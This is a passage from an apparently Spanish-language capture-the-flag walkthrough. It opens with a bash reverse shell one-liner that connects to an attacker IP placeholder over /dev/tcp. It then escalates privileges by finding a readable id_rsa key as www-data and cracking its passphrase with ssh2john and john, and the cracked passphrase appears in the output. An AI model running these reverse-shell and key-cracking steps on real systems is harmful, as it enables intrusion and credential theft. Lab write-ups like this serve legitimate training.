 
Ingresamos el siguiente comando: `bash -c 'exec bash -i &>/dev/tcp/[IP-ATTACKER]/443 <&1'` en mi caso es lo que mayormente suelo usar, tu puedes usar otro si gustas

## Escalada de privilegios
### Usuario www-data
Una vez obtenida la shell como el usuario `www-data`

![20231121174025.png](20231121174025.png)

Enumerando encontraremos un archivo `id_rsa` que tenemos permisos para leerlo

![20231121174349.png](20231121174349.png)

Con este archivo podemos ingresar por `ssh` sin proporcionar credenciales, pero antes tenemos que crackearla debido a que esta protegida por contraseña

 1. Generamos el hash con `ssh2john`
 
```php
❯ ssh2john id_rsa > hash
```

2. Crackeamos con `john` 

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
creepin2006      (id_rsa)     
1g 0:00:00:01 DONE (2023-11-21 17:33) 1.000g/s 1896Kp/s 1896Kc/s 1896KC/s creepygoblin..creek93
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
